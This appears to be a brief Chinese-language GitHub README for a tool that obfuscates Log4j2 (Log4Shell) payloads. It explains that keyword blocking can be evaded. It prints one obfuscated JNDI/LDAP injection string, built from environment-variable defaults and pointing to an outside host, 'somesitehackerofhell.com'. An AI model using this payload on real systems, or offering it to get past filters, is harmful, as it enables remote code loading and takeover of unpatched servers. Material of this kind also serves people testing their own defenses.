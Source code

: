 # Log4j2_obfuscation

许多开发人员开始屏蔽关键字以保护应用程序。

但是，攻击者可以使用混淆方式来进行绕过。

最常用的为系统环境变量绕过：

${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}

手动替换字符无疑是一项大工程，耗时耗力又容易出错。



![image](https://github.com/Securify-Pro/Log4j2_obfuscation/blob/master/Securify-Pro.png)



